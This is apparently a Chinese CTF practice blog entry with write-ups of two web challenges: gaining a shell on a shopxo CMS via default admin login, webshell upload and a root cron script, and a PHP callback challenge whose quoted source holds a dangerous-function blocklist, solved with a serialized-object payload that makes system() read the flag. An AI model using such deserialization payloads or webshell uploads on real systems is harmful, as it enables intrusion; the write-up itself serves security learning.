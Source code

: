 # buu摸鱼日记之十八

###### 外卖日记：今天星期一，可能是昨天大家都出去玩了大饱口福的原因，都没有什么点餐。生意很差，只有11单

## [GKCTF2020]老八小超市儿

这题有点意思

本来以为是ssrf什么的，并不是

shopxo是一个cms，有洞可以网上找

admin.php有管理页面，标准密码和账号

然后可以通过上传马，换主题来getshell

flag所在文件夹无权限，可以利用有root权限的定时脚本来实现

http://8c8003d7-d8b6-47b4-a56a-d4bdf05c29cb.node3.buuoj.cn（我手滑把flag搞没了，又得打一次QWQ）

## [网鼎杯 2020 朱雀组]phpweb

很有意思的题目

抓包会发现post一个func一个p 测试发现file_get_contents有效（system什么的都没用，phpinfo也不行）

然后就读index.php嘛

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        //回调函数,就是$func($p)
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

还做了个大小写过滤（我都没想到）

反序列化直接打

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";} 
```

命令任意执行，随便玩